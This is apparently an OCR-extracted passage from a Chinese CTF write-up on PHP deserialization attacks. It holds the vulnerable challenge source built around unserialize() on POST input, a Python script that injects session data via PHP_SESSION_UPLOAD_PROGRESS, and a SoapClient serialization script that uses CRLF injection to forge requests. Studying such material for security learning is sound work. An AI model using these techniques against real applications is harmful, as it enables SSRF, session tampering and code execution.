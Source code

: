 ```
        public function __invoke()
        {
                $this->mod2 = $this->mod3.$this->mod1;
        } 
}
class dd
{
        public $name;
        public $flag;
        public $b;

        public function getflag()
        {
                session_start(); 
                var_dump($_SESSION);
                $a = array(reset($_SESSION),$this->flag);
                echo call_user_func($this->b,$a);
        }
}
class ee
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->{$this->str2}();
                return "1";
        }
}

$a = $_POST['aa'];
unserialize($a);
?> 
```

接下来我们介绍一下`ini_set('session.serialize_handler', 'php');`
我们可以上传我们想要上传的一些script到对应的session中，代码如下：

```
 import requests

url = input("打开burpsuite代理;  输出网址：")

data={'PHP_SESSION_UPLOAD_PROGRESS': 'kexiugai'}
file = {'file': ('kexiugai.txt','xxxx')}
cookies={'PHPSESSID': 'sessid'}
proxies = {'http': 'http://127.0.0.1:8080'}
req = requests.post(url, data=data, files=file, cookies=cookies, proxies=proxies, verify=False) 
```

这是Soapclient的序列化脚本

```
<?php 
$target = 'http://127.0.0.1/interface.php'; 
$headers = array('X-Forwarded-For:127.0.0.1', 'Cookie:user=xZmdm9NxaQ==; PHPSESSID=fuck3' );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^'.join('^^',$headers),'uri' => "aaab")); 
$aaa = serialize($b); 
$aaa = str_replace('^^',"\r\n",$aaa); 
$aaa = str_replace('&','&',$aaa); 
echo urlencode($aaa); 
?> 
```

